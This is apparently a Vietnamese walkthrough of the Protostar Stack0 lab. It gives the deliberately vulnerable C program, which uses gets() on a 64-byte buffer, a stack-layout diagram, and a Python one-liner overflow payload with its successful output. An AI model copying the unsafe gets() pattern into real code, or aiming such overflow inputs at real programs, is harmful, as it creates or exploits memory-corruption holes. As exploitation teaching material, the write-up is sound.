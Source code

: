 # 1. Stack0
## Source code  
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```  
Ta có cấu trúc của memory sẽ nhìn như này:
```
  |  high memory adddress
  | |====================| 
  | |   name-parameter   |  ^
  | |====================|  | buffer
  S |   return address   |  | direction
  t |====================|  |
  a |  base-pointer|'''''|  |
  c |==============|'''''|  |
  k |''''''''''''''''''''|  |
  | |'''''''buffer'''''''|  |
  | |''''''''''''''''''''|  |
  | |====================|  |
  | |                    |  |
  | |....................|
      low memory address
```  
  Khi inputs bằng gets() sẽ có lỗi buffer overflow làm cho giá trị nhập vào tràn qua base-pointer và return address do gets() sẽ lấy input mà không cần biết điểm dừng và tiếp tục lưu trữ nó dù đã vượt qua khoảng lưu chữ của buffer.  
  Để hoàn thành stack0 ta cần phải thay đổi giá trị mặc định của `modified` thành khác `0`. Khi đó ta sẽ nhận được output `you have changed the 'modified' variable`.  
  
```
user@protostar:/opt/protostar/bin$ python -c "print 'A'*65" > /tmp/payload
user@protostar:/opt/protostar/bin$ cat /tmp/payload | /opt/protostar/bin/stack0
you have changed the 'modified' variable
user@protostar:/opt/protostar/bin$ 
```
